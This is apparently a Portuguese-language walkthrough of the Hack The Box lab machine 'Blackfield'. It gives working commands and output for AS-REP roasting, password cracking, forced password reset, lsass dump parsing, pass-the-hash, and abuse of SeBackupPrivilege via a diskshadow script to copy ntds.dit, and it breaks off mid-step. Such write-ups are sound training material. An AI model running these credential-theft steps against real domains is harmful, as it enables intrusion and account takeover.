


# Writeup Blackfield

## Sumário

- [Privilege Escalation](privilege-escalation)

## Scan

```bash
# Nmap 7.93 scan initiated Sat Jan 20 12:14:35 2024 as: nmap -A -sC -Pn -oN fullnmap.txt -p 139,135,445,53,5985 -T5 -v 10.129.229.17
Nmap scan report for blackfield.local (10.129.229.17)
Host is up (0.26s latency).

PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  filtered netbios-ssn
445/tcp  open     microsoft-ds?
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-20T22:15:08
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   288.60 ms 10.10.14.1
2   288.72 ms blackfield.local (10.129.229.17)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 20 12:15:47 2024 -- 1 IP address (1 host up) scanned in 73.09 seconds
```

## Enumeration & Exploitation

​	Ao comecarmos a enumerar a máquina, podemos ver que existe alguns diretórios no SMB que temos acesso.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec smb blackfield.local -u "guest" -p "" --shares               
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\guest: 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON                        Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL                          Logon server share
```

​	Podemos olhar o conteúdo do diretório **profiles$** e ver o que ele tem.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ smbclient //10.129.229.17/'profiles$' -U "guest%"                                          
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 13:47:12 2020
  ..                                  D        0  Wed Jun  3 13:47:12 2020
  AAlleni                             D        0  Wed Jun  3 13:47:11 2020
  ABarteski                           D        0  Wed Jun  3 13:47:11 2020
  ABekesz                             D        0  Wed Jun  3 13:47:11 2020
  ABenzies                            D        0  Wed Jun  3 13:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 13:47:11 2020
  AChampken                           D        0  Wed Jun  3 13:47:11 2020
  ACheretei                           D        0  Wed Jun  3 13:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 13:47:11 2020
  AHigchens                           D        0  Wed Jun  3 13:47:11 2020
  AJaquemai                           D        0  Wed Jun  3 13:47:11 2020
  AKlado                              D        0  Wed Jun  3 13:47:11 2020
  AKoffenburger                       D        0  Wed Jun  3 13:47:11 2020
  AKollolli                           D        0  Wed Jun  3 13:47:11 2020
  AKruppe                             D        0  Wed Jun  3 13:47:11 2020
  AKubale                             D        0  Wed Jun  3 13:47:11 2020
  ALamerz                             D        0  Wed Jun  3 13:47:11 2020
  AMaceldon                           D        0  Wed Jun  3 13:47:11 2020
  AMasalunga                          D        0  Wed Jun  3 13:47:11 2020
  {...}
```

​	Podemos notar que os diretórios parecem ser nomes de usuários, o que pode ser reforcado pelo nome do diretório "profiles$", com isso, podemos criar uma lista de possíveis usuários da máquina. Para isso podemos executar o seguinte comando:

```bash
smbclient //10.129.229.17/'profiles$' -U "guest%" -c 'ls' | awk '{print $1}' > profiles.txt
```

​	Com a lista em mãos, podemos ver se algum usuário está vulnerável a [ASREPRoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) utilizando o **impacket-GetNPUsers**.

```bash
impacket-GetNPUsers blackfield.local/ -no-pass -usersfile profiles.txt -request -outputfile ticket.txt
```

​	Após executar o comando, podemos conseguir o ticket do usuário **support**. 

​	**OBS:** Como eu já havia quebrado o hash, tenho que utilizar a opcao `--show` para visualizar a senha quebrada.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ cat ticket.txt      
$krb5asrep$23$support@BLACKFIELD.LOCAL:ce3250b54454406320fe2e9ed00dd828$758ea09fed89a5122fc5d31d4871c65ab5bd6af3dafb74e4978007e7ccfaaed5bc3afaa01b10605954114b7a57946a8b8bf935cb7295fa1e755cdeb4f66ea1da307ed2815b6b2932d154f72c9ab2d2fce791c63136295f196724a4862b1327adc18c59a589a7efa17135935489a3f3d164c851ce1d2f086850adbe95583dbf2c407e5f7c47efc0c1606a9e805d9ee2ee5a4b701ef46a78c417b76723911e109a9978362ce36bafa7d43ab58f205c1d30f03e2bd64bf0009c4d9c7953b7fede4fb3751526fba1f4456915a73a0ad6f4fdf694eecd05b714fc83ea5a2500869c13e407d25ce51ffb0be7e33ab8fa1b8a1923450250

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ticket.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)                                                                                                                                                                                       
┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ john ticket.txt --show
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight

1 password hash cracked, 0 left
```

​	Outra maneira de criarmos a wordlist de usuário que possui o usuário **support** é utilizando o `--rid-brute` do **netexec**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec smb blackfield.local -u "guest" -p "" --rid-brute | grep -i SidTypeUser | awk -F '\' '{print $2}' | awk '{print $1}' > profiles2.txt

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile profiles2.txt -request -outputfile ticket2.txt

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ cat ticket2.txt 
$krb5asrep$23$support@BLACKFIELD.LOCAL:d9809ef11c6066b273b8067a8f66f111$aeb1593a08547c5d335065a96384b6946c5deaeda42e1c641686dd44469a894f8b26f0046407d9b2b1f8a5bb56e5021b4e480c1e8fe988b8835b8db192306a80dfc71085107f8f6435f8e039c69b725cc60832d873700763dd9fed8f895791773602f5f5b9feb78a841663e144599af680fc084b4810e8347892e5848f4b3ba8503c570d17034e804ccdf543b6a07276adb4cabfb74f09efdb9fa697d2a462af1801f4a99e126563dfab996ccfbc8c88c19b58f8e491533ea3e65d162e39440e027701142f59ccbafa0a9c1bee740d06a54d6629e78e20c407f5f0ed48091398cd6bc64eafebe51c68a2889a327701a59e32ff86
```

​	Com a senha de usuário quebrada, podemos utilizar o **bloodhound-python** para enumerar o domínio e ver o que conseguimos fazer com esse usuário **support**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/bloodhoundfiles]
└─$ bloodhound-python -u support -p "#00^BlackKnight" -c all -d blackfield.local -ns 10.129.229.17 --zip -v
```

​	Tendo feito a enumeracao e gerado o arquivo zip, podemos fazer upload no **bloodhound** e ver o que conseguimos.

​	Ao analisar o usuário **support** podemos ver que ele possui uma permissão um valor em **First Degree Object Control** no campo **OUTBOUND OBJECT CONTROL**, o que quer dizer que esse usuário possui controle sobre um objeto no domínio. 



Ao clicarmos no valor, podemos ter mais informacões sobre ele e, ao fazermos isso, podemos ver que podemos forcar a mudanca de senha do usuário **audit2020**.



​	Após um tempo de pesquisa descobrimos que é possível fazer essa mudanca usando o [rpcclient](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword). 

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ rpcclient -U "support%#00^BlackKnight" blackfield.local                                                
rpcclient $> setuserinfo2 audit2020 23 'P@ssword1234'
```

​	Neste caso, alteramos a senha do usuário **audit2020** para **P@ssword1234**.

​	Podemos utilizar esse usuário novo para ver o que temos acesso no SMB e ao fazer isso podemos perceber que agora temos acesso ao diretório "forensic".

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec smb blackfield.local -u audit2020 -p "P@ssword1234" --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:P@ssword1234 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

​	Ao analisarmos o diretório à procura de algo interessante, podemos encontrar um arquivo zip chamado "lsass.zip". Podemos baixá-lo para ver o que existe de interessante nele.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ smbclient //10.129.229.17/'forensic' -U "audit2020%P@ssword1234"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 10:03:16 2020
  ..                                  D        0  Sun Feb 23 10:03:16 2020
  commands_output                     D        0  Sun Feb 23 15:14:37 2020
  memory_analysis                     D        0  Thu May 28 17:28:33 2020
  tools                               D        0  Sun Feb 23 10:39:08 2020

                5102079 blocks of size 4096. 1691282 blocks available
smb: \> cd memory_analysis
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 17:28:33 2020
  ..                                  D        0  Thu May 28 17:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 17:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 17:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 17:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 17:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 17:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 17:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 17:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 17:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 17:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 17:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 17:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 17:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 17:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 17:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 17:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 17:27:53 2020

                5102079 blocks of size 4096. 1691282 blocks available
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (1578.5 KiloBytes/sec) (average 1578.5 KiloBytes/sec)
smb: \memory_analysis\> exit
```

​	Ao descompactá-lo, podemos ver que o arquivo é um arquivo minidump (dmp) e ao pesquisar sobre como ver informacões desse tipo de arquivo, podemos encontrar o seguinte artigo [How to extract information from dmp files](https://technicalnavigator.in/how-to-extract-information-from-dmp-files/) que menciona uma tool chamada [pypykatz](https://github.com/skelsec/pypykatz).

​	Podemos então usar o **pypykatz** para ver a informacão do arquivo com o seguinte comando: 

```
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP 
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.218491+00:00
sid S-1-5-96-0-2
luid 365835
        == MSV ==
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
                DPAPI: NA
{...}

```

​	Como o arquivo possui muitos usuários e hashes, podemos fazer um filtro pelos usernames e adicinar os usuários na lista prévia de usuários.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP | grep -i username: | sort -u | awk -F ':' '{print $2}'
INFO:pypykatz:Parsing file lsass.DMP
 
 Administrator
 dc01$
 DC01$
 svc_backup
```

​	Podemos fazer a mesma coisa para os hashes do tipo **NT**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP | grep -i NT: | sort -u | awk -F ':' '{print $2}'
INFO:pypykatz:Parsing file lsass.DMP
 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
 9658d1d1dcd9250115e2205d9f48400d
 b624dc83a27cc29da11d9bf25efea796
```

​	Com as listas criadas, podemos fazer um ataque de **Hash Spray** utilizando o **netexec** para descobrir qual usuário possui acesso ao winrm utilizando a técnica de PTH (Pass The Hash).

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec winrm blackfield.local -u user.txt -H hashfile.txt
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\svc_backup:b624dc83a27cc29da11d9bf25efea796
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\svc_backup:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Administrator:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Guest:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\Ipwn3dYouCompany:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\krbtgt:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\lydericlefebvre:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\audit2020:9658d1d1dcd9250115e2205d9f48400d
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

​	Tendo descoberto o login válido do usuário [svc_backup](https://technicalnavigator.in/how-to-extract-information-from-dmp-files/), podemos logar em sua conta utilizando o **evil-winrm** e pegar a flag de user.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ evil-winrm -i blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir

    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
3920bb317a0bef51027e2852be64b543
```

## Privilege Escalation

​	Após pegarmos shell, podemos enumerar a máquina e, logo no início, descobrir que nosso usuário pertence ao grupo **Backup Operators** e possui o privilégio **SeBackupPrivilege** habilitado.

​	Com isso, podemos encontrar as seguintes informacões de exploracões para se fazer:

- [Priv2Admin](https://github.com/gtworek/Priv2Admin)
- [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- [Windows - Token Impersonation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)

```powershell
*Evil-WinRM* PS C:\Temp> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

​	Também podemos usar o **SharpUp** para fazer essa verficacão.

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> ./SharpUp.exe check TokenPrivileges

=== SharpUp: Running Privilege Escalation Checks ===

=== Abusable Token Privileges ===
        SeBackupPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
        SeRestorePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED


[*] Completed Privesc Checks in 0 seconds
```

​	Depois de tentar fazer o dump do sam e do system, podemos perceber que os hashes do **administrator** não funcionam, o que nos leva a tentar outras alternativas.

​	A alternativa seria fazer dump do **ntds.dit**, com isso, podemos encontrar as seguintes informacões de exploracões para se fazer:

- [Post Exploitation - ntds.dit dumping](https://notes.qazeer.io/active-directory/post_exploitation-ntds_dit_dumping)
- [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#2f79)
- [Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration) 
- [Dumping Domain Password Hashes](https://pentestlab.blog/tag/diskshadow/)

​	O primeiro método envolve a execução dos utilitários integrados do Windows, **Diskshadow** e **Robocopy**. **Diskshadow** cria cópias de uma unidade usada atualmente, enquanto **Robocopy** copia arquivos e diretórios de um local para outro. 

​	Não podemos copiar os arquivos do sistema diretamente usando comandos de cópia regulares porque eles estão sempre em execução e em uso. 

​	Para criar a live copy, executamos o script abaixo que executa um backup completo da unidade `C:` e a expõe como uma unidade de rede com a letra de unidade `E:`.	

​	Para funcionar, é necessário criarmos uma arquivo chamado **diskshadow.txt** em nossa máquina.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ cat diskshadow.txt 
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup
```

​	O script começa habilitando o modo detalhado (**set verbose**) para fornecer mais detalhes sobre a saída. Em seguida, define a localização do arquivo de metadados (**set metadata**). 

​	O arquivo `meta.cab` é criado quando criamos a cópia **shadow** da unidade. Ele armazena informações sobre nossa cópia **shadow**, como data e hora de criação, nome do volume e tamanho da cópia.

​	A seguir, definimos os contextos do backup para serem acessíveis ao cliente (**set context clientaccessible**) e persistentes (**set context persistent**). Assim, os backups podem ser acessíveis para nós após a execução do script e persistentes quando reiniciamos a máquina.

​	Em seguida, o backup é iniciado (**begin backup**), inclui a unidade `C:` e atribui a ela um alias como **cdrive** para referência. 

​	**OBS:** Podemos ter qualquer nome alternativo que quisermos, não precisa ser necessariamente **cdrive**. 

​	Finalmente, o comando **create** cria o backup real e, em seguida, expõe a unidade `C:` como uma unidade de rede com a letra `E:` e finaliza a operação com o comando **end backup**. 

​	Com o script montado, podemos fazer upload na máquina e executar o **DiskShadow**.

​	**OBS:** Na hora de executar o diskshadow estava removendo o último caracter de cada linha, então, é necessário dar um espaco no final de cada linha.

```powershell
*Evil-WinRM* PS C:\Temp> upload /home/kali/Desktop/HTB/Blackfield/diskshadow.txt C:\Temp\diskshadow.txt
Info: Uploading /home/kali/Desktop/HTB/Blackfield/diskshadow.txt to C:\Temp\diskshadow.txt
                                                             
Data: 240 bytes of 240 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2024   8:05 PM            182 diskshadow.txt

*Evil-WinRM* PS C:\Temp> diskshadow.exe /s diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  1/20/2024 8:07:38 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Excluding writer "Shadow Copy Optimization Writer", because all of its components have been excluded.
Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
because it requires volume  which is not in the shadow copy set.
The writer "ASR Writer" is now entirely excluded from the backup because the top-level
non selectable component "\BCD\BCD" is excluded.

* Including writer "Task Scheduler Writer":
        + Adding component: \TasksStore

* Including writer "VSS Metadata Store Writer":
        + Adding component: \WriterMetadataStore

* Including writer "Performance Counters Writer":
        + Adding component: \PerformanceCounters

* Including writer "System Writer":
        + Adding component: \System Files
        + Adding component: \Win32 Services Files

* Including writer "DFS Replication service writer":
        + Adding component: \SYSVOL\B0E5E5E5-367C-47BD-8D81-52FF1C8853A7-A711151C-FA0B-40DD-8BDB-780EF9825004

* Including writer "Registry Writer":
        + Adding component: \Registry

* Including writer "COM+ REGDB Writer":
        + Adding component: \COM+ REGDB

* Including writer "WMI Writer":
        + Adding component: \WMI

* Including writer "NTDS":
        + Adding component: \C:_Windows_NTDS\ntds

Alias cdrive for shadow ID {6a071b99-3cb2-4898-90b4-6872aadfe397} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {d59a86f7-1577-414b-9f8a-edb168c05ecd} set as environment variable.
Inserted file WM1.xml into .cab file meta.cab
Inserted file WM2.xml into .cab file meta.cab
Inserted file WM3.xml into .cab file meta.cab
Inserted file WM4.xml into .cab file meta.cab
Inserted file WM5.xml into .cab file meta.cab
Inserted file WM6.xml into .cab file meta.cab
Inserted file WM7.xml into .cab file meta.cab
Inserted file WM8.xml into .cab file meta.cab
Inserted file WM9.xml into .cab file meta.cab
Inserted file WM10.xml into .cab file meta.cab
Inserted file DisC1C4.tmp into .cab file meta.cab

Querying all shadow copies with the shadow copy set ID {d59a86f7-1577-414b-9f8a-edb168c05ecd}

        * Shadow copy ID = {6a071b99-3cb2-4898-90b4-6872aadfe397}               %cdrive%
                - Shadow copy set: {d59a86f7-1577-414b-9f8a-edb168c05ecd}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 1/20/2024 8:07:53 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {6a071b99-3cb2-4898-90b4-6872aadfe397}
The shadow copy was successfully exposed as E:\.
-> end backup
->
```

Logo em seguida, podemos ir para algum diretório e fazer a cópia usando **robocopy**.

```powershell
*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
